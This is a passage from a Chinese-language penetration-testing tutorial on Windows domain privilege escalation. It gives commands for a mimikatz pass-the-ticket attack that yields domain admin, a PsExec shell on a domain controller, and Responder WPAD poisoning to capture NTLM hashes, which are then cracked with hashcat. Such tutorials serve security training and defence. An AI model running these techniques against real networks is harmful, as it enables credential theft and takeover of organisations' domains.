 6\. 将证书文件复制到mimikaz同级目录下。写入证书，从而提升为域管理员

```
mimikatz.exe "kerberos::ptc TGT_hh@safe-duck.com.ccache" exit
```

```
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
```

  

7.再次列出域控制器的C盘目录,成功访问域控的C盘，说明普通域用户提权成功  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

8.使用PsExec.exe获取shell，#psexec.exe以管理员权限运行连接域控

```
PsExec.exe \\WIN-6JM3ECTM2CO.safe-duck.com cmd.exe
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

* * *

  

**七、Responder -WPAD 提权**
========================

```
Responder下载地址：https://github.com/lgandx/Responder
```

浏览器默认自动检测代理设置如下，当目标访问某个网站时，利用kali伪造代理主机，要求目标机器提供hash，kali抓取此hash  
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**1.kali 设置侦听**

```
`responder -I eth0``#Responder会启动80端口，用之前关闭80服务``/etc/init.d/apache2 stop`
```

  

目标在浏览器上访问任意网页，kali获取到hash

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

**2.hashcat破解**

```
`hashcat -m 5600 hash.txt -a 0 pass.txt --force``#5600>NTLM加密协议`
```

```


  



```

